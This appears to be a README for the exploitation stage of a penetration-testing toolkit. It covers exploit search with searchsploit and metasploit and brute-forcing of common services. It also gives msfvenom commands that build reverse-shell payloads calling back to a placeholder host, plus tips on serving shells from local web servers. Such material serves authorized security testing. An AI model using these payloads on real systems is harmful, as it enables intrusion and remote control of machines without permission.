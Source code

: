 # Exploitation Phase

Definition

Available parts:

- Search Exploits
- Brute Force

## Features

- Automatic Exploit Search: Search exploits from nmap vulnerability scan
- Brute Force most common services:
    - AFP, AJP, Cassandra, CouchDB, FTP, IMAP, IRC, ISCSI, LDAP, Mongo, MySQL, OracleSQL, POP, PostgreSQL, RDP, Redis, Rexec, Rlogin, Rsh, Rsync, RTSP, SNMP, SMB, SMTP, SOCKS, MS-SQL Server, SSH, Telnet, VNC

## Usage

1. Copy the `exploitation.conf.dist` file to `exploitation.conf`
```bash
cp exploitation.conf.dist exploitation.conf
```
1. Adjust the conf file to your needs
1. Run the script with following command:
```bash
./exploitation.sh -c exploitation.conf
```

## Results

Results stored to output/ directory.

## Search Exploits

Automatic approach:  

- Set SEARCHEXPLOIT variable to true to let the script find exploits from nmap vulners scan from reconnaissance phase

Manual approach:

- searchsploit (local copy of exploit-db)
- metasploit search (msf search)
- sqlmap

### searchsploit

Examples:  
```bash
searchsploit -u # update local exploit-db
searchsploit openssh -www
searchsploit apache 2.2 | grep -i local
```

If you have an EDB-ID, you can directly download an exploit with -m parameter:
```bash
searchsploit -m [EDB-ID]
# Example:
searchsploit -m 50689
```

### metasploit

Try metasploit (msfconsole) to search for an exploit by a given CVE Number or EDB-ID or by keywords.  
Metasploit search examples:
```bash
msfconsole -x "search cve:2010-2075; exit;" -q
msfconsole -x "search type:exploit platform:linux ftp; exit;" -q
msfconsole -x "search type:exploit platform:windows port:135; exit;" -q
```

## Tools used

All tools used are preinstalled on latest Kali Linux Version 2022.1:

- nmap
- hydra
- searchsploit

-----

## Additional Information

### Payloads

Creating payloads with MsfVenom:  

```sh
# msfvenom syntax
msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport] [more options]

# Examples:
# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > revshell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > revshell.exe    

# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > revshell.elf    
msfvenom -p linux/x64/shell_reverse_tcp RHOST=<IP> LPORT=<PORT> -f elf > revshell.elf

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > revshell.sh

# Python
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > revshell.py

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > revshell.php
```


### Reverse Shells

Checkout the following links on Reverse Shells:

- [Reverse Shell Generator](https://www.revshells.com/)
- [Reverse Shell Cheat Sheet @ HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [Different Shells @ HackTricks](https://book.hacktricks.xyz/shells/shells)

### Local Web Servers

Need an simple, local web server? These are great for serving up (reverse) shells  

| **Command**                             | **Description**                                                     |
|-----------------------------------------|---------------------------------------------------------------------|
| ```python2 -m SimpleHTTPServer 8000```   | Run a basic http server with python on port 8000 in this directory  |
| ```python3 -m http.server 8000```       | Same with python3                                                   |
| ```php -S 0.0.0.0:8000```               | Run a basic http server with php on port 8000 in this directory     | 

### SQL Injection

Try [sqlmap](https://github.com/sqlmapproject/sqlmap) to enumerate and inject sql databases.

### Command Injection

Checkout the [commix project](https://github.com/commixproject/commix/wiki/Usage-Examples) for possible command injection examples with commix or for [getting shells with commix](https://github.com/commixproject/commix/wiki/Getting-Shells).
